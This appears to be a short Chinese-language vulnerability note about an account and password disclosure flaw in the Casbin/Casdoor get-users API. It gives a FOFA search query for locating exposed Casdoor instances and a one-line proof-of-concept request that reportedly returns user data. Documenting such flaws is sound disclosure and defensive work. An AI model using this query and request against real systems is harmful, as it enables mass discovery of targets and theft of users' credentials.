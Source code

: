 # Casbin get-users 账号密码泄漏漏洞

## 漏洞描述

Casbin get-users api接口存在账号密码泄漏漏洞，攻击者通过漏洞可以获取用户敏感信息

## 漏洞影响

```
Casbin
```

## FOFA

```
title="Casdoor"
```

## 漏洞复现

登录页面

![image-20220524143206718](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241432780.png)

验证POC

```
/api/get-users?p=123&pageSize=123
```

![image-20220524143215583](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241432624.png)
